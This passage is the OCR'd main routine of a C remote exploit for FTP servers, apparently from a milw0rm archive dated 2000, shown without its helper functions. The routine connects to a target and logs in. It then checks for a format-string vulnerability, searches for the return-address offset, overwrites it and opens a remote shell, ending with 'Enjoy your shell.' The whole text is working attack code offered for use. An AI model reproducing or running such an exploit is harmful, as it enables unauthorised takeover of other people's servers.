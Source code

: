         if (argc != 1)
        {
            puts(usage);
            exit(0);
        }

        strcpy(password, putshell(type));

        if ((fd = connecttoftp(*argv, port)) < 0)
        {
            (void)fprintf(stderr, "Connection to %s failed.\n", *argv);
            exit(1);
        }

        (void)fprintf(stderr, "Connected to %s. Trying to log in.\n", *argv);

        if (logintoftp(login, password) < 0)
        {
            (void)fprintf(stderr, "Logging in to %s (%s) failed.\n",
                *argv, login);
            exit(1);
            }

        (void)fprintf(stderr, "Logged in as %s. Checking vulnerability.\n",
            login);

        sleep(targ[type].sleep);

        if (checkvuln() < 0)
        {
            (void)fprintf(stderr, "Sorry, this version isn't"
                " vulnerable or uses internal vsnprintf().\n");
            exit(1);
        }

        (void)fprintf(stderr, "Ok, trying to find offset (initial: %d)\n",
            eipoff);

        if ((retoff = findeip(eipoff, align)) < 0)
        {
            (void)fprintf(stderr, "\nError finding offset. Adjust"
                " align.\n");
            exit(1);
        }

        if (overwrite(ret, retoff, align, retloc, eipoff) < 0)
        {
            (void)fprintf(stderr, "Error overwriting RET addr.\n");
            exit(1);
        }

        fprintf(stderr, "Wait up to few minutes for reply. It depends on "
                "victim's CPU speed.\nEnjoy your shell.\n");

        sh(fd);

        exit(0);
    }


    // milw0rm.com [2000-11-21]
